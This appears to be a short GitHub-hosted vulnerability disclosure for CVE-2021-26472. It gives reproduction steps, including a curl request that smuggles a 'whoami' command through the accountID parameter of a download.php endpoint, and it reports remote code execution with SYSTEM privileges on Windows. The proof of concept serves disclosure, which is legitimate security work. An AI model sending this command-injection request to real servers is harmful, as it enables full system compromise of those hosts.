 ```yaml
---
layout: none
---
```

## How to reproduce
Step 1: Install a vulnerable product on Windows

Step 2: execute the following http request
```bash
$ curl 'http://local/consumerweb/secure/download.php?Action=ResellerTemplate&accountID=%26whoami'
```

Step 3: Result

![Screenshot that proves RCE happened with SYSTEM privileges](assets/images/cve-2021-26472.png)

## Impact
This vulnerability allows an attacker to execute arbitrary windows commands with full system privileges. A.k.a. a full system compromise.


